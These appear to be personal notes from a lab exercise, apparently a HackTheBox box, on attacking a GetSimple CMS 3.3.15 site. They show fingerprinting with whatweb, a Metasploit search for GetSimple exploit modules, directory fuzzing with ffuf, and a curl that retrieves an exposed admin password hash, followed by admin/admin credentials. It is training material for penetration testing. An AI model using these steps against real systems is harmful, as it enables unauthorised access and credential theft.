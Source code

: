 Port 80 appears to be running

CMS - GetSimple CMS 

version 3.3.15
http://10.129.6.57/data/cache/2a4c6447379fba09620ba05582eb61af.txt

Logs invalid logins!!
http://10.129.201.192/data/other/logs/failedlogins.log
s
sudo sh -c 'echo "10.129.201.192 gettingstarted.htb" >> /etc/hosts'

![[../Images/Pasted image 20241007141415.png]]

```
whatweb http://10.129.201.192
```

```
┌──(paige㉿PH-LT02)-[/home/paige]
└─PS> whatweb http://10.129.201.192                                                                                
http://10.129.201.192 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.201.192], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]    
```

![[../Images/Screenshot_2024-10-07_11_56_34.png]]

## Metasploit

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[../Images/Pasted image 20241007144838.png]]

Which allows us to grab the first capture flag
![[../Images/Pasted image 20241007145121.png]]
## Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.201.192/FUZZ -t 100 -ic -c 
```
Output

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.201.192/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 20ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 18ms]
plugins                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
theme                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 19ms]
backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 19ms]
:: Progress: [220546/220546] :: Job [1/1] :: 4065 req/sec :: Duration: [0:00:47] :: Errors: 0 ::

### Passwords

Tried the following credentials below to gain access to admin after determining the hash.

```
┌──(paige㉿PH-LT02)-[~]
└─$ curl -s  http://10.129.201.192/data/users/admin.xml.reset | xmllint --format - 
<?xml version="1.0" encoding="UTF-8"?>
<item>
  <USR>admin</USR>
  <NAME/>
  <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
  <EMAIL>admin@gettingstarted.com</EMAIL>
  <HTMLEDITOR>1</HTMLEDITOR>
  <TIMEZONE/>
  <LANG>en_US</LANG>
</item>```
```

http://gettingstarted.htb/admin

| username                 | password                                 |
| ------------------------ | ---------------------------------------- |
| admin                    | admin                                    |


